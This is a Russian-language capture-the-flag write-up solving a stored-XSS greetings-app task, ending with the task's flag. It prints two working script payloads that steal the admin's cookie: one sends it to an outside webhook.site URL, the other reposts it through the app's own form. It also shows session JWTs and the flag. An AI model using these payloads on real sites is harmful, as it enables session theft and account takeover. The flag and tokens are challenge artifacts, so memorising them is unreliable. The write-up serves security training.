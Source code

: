 # eXXSternal greeting

## Исследование

Название задачи намекает на XSS.

В самой задаче для начала необходимо залогиниться (зарегистрироваться).

После логина можно заметить, что рядом с логином написано `Admin: false`.

Также на главной странице в комментарии есть текст `<!-- админ: не админ; сервис с поздравлениями я дам, флаг я не дам -->`

Есть страничка с отображением списка зарегистрированных пользователей - т.к. таск поднимался индивидуально, там обычно было только два человека - это `admin` и свежезареганный юзер.

Есть форма, через которую можно отправить кому-либо поздравление, есть страница, на которой отображаются отправленные и полученные поздравления.

Если посмотреть в куки / запросы, можно увидеть, что после логина ставится кука вида `access_token="Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJleHAiOjE3MjUzNzUzNTR9.xixPfnQa8al9BzUvFj3XHNGAy2KmAzi26uYYuBuyHIw"`

Это обычная JWT, её ломать не нужно ;)

Также, если просто потыкать формочку поздравлений, нужно увидеть, что никакой фильтрации там нет, и всё, что через неё проходит появляется на странице поздравлений as is.

Исходя из доступных возможностей взаимодействия с таском, логичным выглядит следующий способ эксплуатации: отправить что-то админу, чтобы получить его куку или какие-то его данные.

## Эксплуатация

Для начала надо получить куку админа.

Есть два пути: использовать какой-то сторонний ресурс для отстуков, или сделать всё исключительно с помощью таска.

### Первый путь

Я обычно использую <https://webhook.site> для таких задач.

Самое простое решение тут вот такое:

```js
<script>
    fetch('https://webhook.site/89ac9485-c571-42e1-94a1-311f98467f9a', { method: 'POST', body: JSON.stringify(document.cookie)}) 
</script>
```

Отправляем поздравление, ждем отстук, получаем куку админа (`Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzI1Mzc5NzkxfQ.H7s9Ytgkxj88UbxRDgI9iPR6smnsv_cYBzjluwfIJxQ`)

Открываем главную страницу, и там в HTML-комментарии забираем флаг.

### Второй путь

Тут была небольшая сложность: если пытаться сходить по айпишнику таска, это не работало: надо было использовать либо относительные ссылки, либо догадаться до использования домена `task`.

```js
<script>
    let formData = new FormData();
    formData.append('username', 'test');
    formData.append('congr', document.cookie);
    fetch('/congr', { method: 'POST', body: formData})
</script>
```

Отправляем, получаем куку в поздравлении:

![pic](./pic1.jpg)

Ещё вместо куки можно было грепать и отправлять себе сразу флаг, но это упражнение с JS'ом остается на усмотрение читателя ;)

## Флаг

`crab{f3l1c1t4t10n_4nd_h4ppy_n3w_y34r_f0r_b0ss_*}`
